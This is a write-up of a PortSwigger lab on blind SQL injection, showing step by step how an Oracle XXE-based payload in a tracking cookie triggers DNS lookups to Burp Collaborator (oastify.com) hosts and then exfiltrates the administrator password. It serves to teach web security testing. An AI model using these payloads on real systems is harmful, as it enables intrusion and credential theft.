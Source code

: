 # Blind SQL injection with out-of-band data exfiltration

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration), you'll learn: Blind SQL injection with out-of-band data exfiltration! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125654.png)

**Cookies:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125711.png)

When we go to `/`, it'll set a new cookie called `TrackingId`.

This looks like a tracking cookie for analytics.

The SQL query may looks like this:

```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '<our_cookie_value>'
```

**That being said, we can try to perform SQL injection.**

**To do so, I'll try to trigger an SQL query error:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125753.png)

However, it seems like we don't recieve any response when we modified the tracking cookie.

Maybe carries out the SQL query **asynchronously**?

The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

### Dectecting blind SQL injection with DNS lookup

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup payloads:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125818.png)

Since we don't know which DBMS (Database Management System) is using, we need to try them all one by one.

**First, go to Burp Suite's Collaborator and click "Copy to clipboard":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301125842.png)

**Then, we'll try Oracle XXE vulnerability to trigger a DNS lookup:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual
```

**Payload:**
```sql
UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

**The SQL query may become:**
```sql
SELECT TrackingId FROM tracking WHERE TrackingId = 'UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
```

Let's send the payload!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130156.png)

> Note: The payload needs to be URL encoded.

**Burp Suite's Collaborator:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130205.png)

We've recieved 4 DNS lookups! Which means the `TrackingId` cookie is vulnerable to out-of-band SQL injection!

### Data exfiltration via blind SQL injection with DNS lookup

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application.

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup with data exfiltration payloads:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130326.png)

**Since we found the DBMS is Oracle, we can use Oracle's payload:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Then, in the lab background, there's a table called `users`, with columns called `username` and `password`.

**To exfiltrate `administrator` user's password, we can use the following payload:**
```sql
UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mxnzb3id8s5c4ybbbezsdqg8xz3qrhf6.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

This input reads the password for the `administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130722.png)

**Burp Suite's Collaborator:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130736.png)

Nice! We successfully exfiltrated `administrator`'s password!

**Let's login as `administrator`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130826.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-17/images/Pasted%20image%2020230301130831.png)

I'm user `administrator`!

# What we've learned:

1. Blind SQL injection with out-of-band interaction